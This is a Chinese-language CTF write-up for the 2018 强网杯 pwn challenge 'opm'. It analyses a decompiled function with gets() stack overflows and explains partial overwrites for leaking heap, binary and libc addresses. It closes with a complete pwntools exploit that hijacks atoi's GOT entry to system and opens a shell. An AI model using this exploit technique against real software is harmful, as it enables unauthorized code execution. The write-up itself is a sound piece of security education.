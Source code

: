 ```yaml
---
title: opm
date: 2018-08-20 00:00:00
categories:
- CTF/Pwn
tags:  Pwn
---
```

##opm

强网杯的一道题目当时没做出来。。。
看着像一个堆题目其实是道栈溢出题目，涉及到堆的知识比较少
唯一的技巧点在于巧妙地利用**局部写**
```
    int (__fastcall **add())(__int64 a1)
    {
      _QWORD *v0; // rbx
      __int64 v1; // rbx
      size_t v2; // rax
      __int64 v3; // rbx
      char s[128]; // [rsp+0h] [rbp-1A0h]
      __int64 addr_of_struct[16]; // [rsp+80h] [rbp-120h]
      __int64 addr_of_name[17]; // [rsp+100h] [rbp-A0h]
      unsigned __int64 canary; // [rsp+188h] [rbp-18h]
    
      canary = __readfsqword(0x28u);
      v0 = (_QWORD *)operator new(0x20uLL);
      init_struct((__int64)v0);
      addr_of_struct[0] = (__int64)v0;
      *v0 = say;
      puts("Your name:");                           // func say
                                                    // name_addr->name(heap)
                                                    // len(name)
                                                    // punch
      gets(s);
      v1 = addr_of_struct[0];
      *(_QWORD *)(v1 + 16) = strlen(s);
      v2 = strlen(s);
      addr_of_name[0] = (__int64)malloc(v2);
      strcpy((char *)addr_of_name[0], s);
      *(_QWORD *)(addr_of_struct[0] + 8) = addr_of_name[0];
      puts("N punch?");
      gets(s);
      v3 = addr_of_struct[0];
      *(_DWORD *)(v3 + 0x18) = atoi(s);
      say(addr_of_struct[0]);
      return (int (__fastcall **)(__int64))addr_of_struct[0];
    }
```
两次gets都有溢出
```
    -00000000000001A0 s               db 128 dup(?)
    -0000000000000120 addr_of_struct  dq 16 dup(?)
    -00000000000000A0 addr_of_name    dq 17 dup(?)
    -0000000000000018 canary          dq ?
```
大致栈结构就这样
由于没有free函数，所以对于堆的利用比较局限
思路就是首先将 role1的结构体写到一个地址，然后把role2的结构体写到role1的name字段（堆上），之后把role2的地址也指向role1地址，这样就把role1的name打印出来，于是就可以泄露堆地址了。
由于事先我们并不知道地址是什么样，所以只能通过局部写改写地址的低字节
将role1的低字节覆盖为0010，而后添加role2，先通过第一次溢出把他的结构体搞到role1的name字段，这里可以通过把低字节改写成00做到（需要实现布局好堆结构，具体可以gdbattach调一下），而后再把role2地址改到0010
泄露完之后我们就可以将role指针随意的构造为堆上的地址了，我们最终的目的是把got表修改掉，这样就需要知道got地址和libc地址
泄露got地址主要就是构造一个伪造堆块，使他的name字段指向say函数，这样泄露地址就可以算出程序加载基地址，从而泄露got
libc同样道理
这里需要注意strlen函数以0结尾，所以我们构造的伪造role长度只能为0x10，也就是说会改变下一个堆块的头部（topsize），需要维护好topchunk
改写的话就利用第二次溢出，把地址写到len字段，改写完成
这里可以选择atoi或者strlen
exp：
```python
    from pwn import *
    context.log_level = 'debug'
    io = process('./opm')
    elf = ELF('opm')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(name,punch):
    	io.recvuntil('xit')
    	io.sendline('A')
    	io.recvuntil('name:')
    	io.sendline(name)
    	io.recvuntil('?')
    	io.sendline(punch)
    def show():
    	io.recvuntil('xit')
    	io.sendline('S')
    
    add(0x70*'A','1')
    add(0x80*'B'+'\x10','1')
    add(0x80*'C','A'*0x80+'\x10')
    io.recvuntil('B'*0x8)
    leak = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(leak))
    
    func_addr = leak - 0x30
    fake_chunk_addr = leak + 0xc0
    fake_chunk = 'A'*0x8+p64(func_addr)
    payload = str(0x20171).ljust(0x80,'A') + p64(fake_chunk_addr)
    add(fake_chunk,payload)
    io.recvuntil('<')
    func = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(func))
    proc_addr = func - 0xb30
    atoi_got = proc_addr + elf.got['atoi']
    fake_chunk = 'a'*0x8 + p64(atoi_got)
    payload = str(0x20171 - 0x50).ljust(0x80,'A') + p64(leak + 0xc0 +0x50)
    add(fake_chunk,payload)
    io.recvuntil('<')
    libc_base = u64(io.recvline()[0:6].ljust(8,'\x00')) - libc.symbols['atoi']
    log.success(hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.success(hex(system))
    add('s3cunDa',str(system).ljust(0x80,'A')+p64(atoi_got - 0x18))
    add('s3cunDa','/bin/sh')
    io.interactive()
```
这么简单题我为什么那时候没做出来。。。